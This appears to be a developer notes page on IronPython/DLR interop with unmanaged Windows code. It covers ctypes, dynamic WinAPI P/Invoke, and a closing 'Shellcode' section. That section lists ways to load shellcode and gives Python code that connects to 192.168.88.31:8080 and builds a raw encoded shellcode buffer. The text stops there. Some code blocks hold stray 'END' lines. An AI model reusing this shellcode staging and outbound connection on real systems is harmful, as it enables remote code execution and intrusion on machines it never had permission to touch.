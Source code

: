 ## Unamanged code via CodeDom from PyDLR:
See Examples\DLRExample1.py

## Unmanaged code via Ctypes (needs IP STDLib)
```python
import ctypes
buffer = ctypes.create_string_buffer(100)
ctypes.windll.kernel32.GetWindowsDirectoryA(buffer, len(buffer))
print buffer.value
```

See Examples\NCtypes.py for more 


## Dynamic WinaPi invoke cs script with shim assist
- Abstracts complexity 
- Does not lock resources. (.Net 2.x-4.x does not allow  unloading assemblies, unless in appdoamin (CSaw does it)  / DLium does it too)
- .Net load via bytes? PyDLR can Note: .Net Core is not tested. 

```csharp
using System; 
using DynamicLoad;
END
dynamic user32 = DynLibUtil.LoadWinapiPInvoke("user32");
user32.MessageBox(0, "Hello World", "P/Invoke Sample", 0);
END
```


## See Capture_via_compile for full example of interop


## Shellcode
Options:
 - void pointer to memory mapped file 
 - via virtualalloc 


a. via PyDLR
```python
try:
    import socket
except Exception as e:
    print e


from System.Threading import Thread, ThreadStart

def scode():
  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  sock.connect(("192.168.88.31", 8080))

  buf =  ""
  buf += "\xdb\xc3\xbd\x9c\xec\x7c\x70\xd9\x74\x24\xf4\x5a\x31"
  buf += "\xc9\xb1\x89\x31\x6a\x17\x03\x6a\x17\x83\x76\x10\x9e"
  buf += "\x85\x5d\x36\xe2\xbc\xbe\xe4\x03\x98\x34\xd3\xcf\x45"
  buf += "\x41\x7a\xf3\xc9\x40\x60\x8d\x72\x24\x0c\x83\xf8\x1d"
  buf += "\x7a\x89\x79\xe9\xe6\x4d\x96\xd6\xe8\x22\x02\x21\xcd"
  buf += "\x18\x2c\x21\x6d\x85\xa1\xa0\xcb\x88\xfd\x01\x0d\x7b"
  buf += "\xdc\x3a\x3f\x58\xec\x00\x16\x38\x52\x32\xb2\x79\xb4"
  buf += "\x39\x23\x2f\xae\xbe\x29\xd3\x63\xb1\xc6\xb5\xf9"


```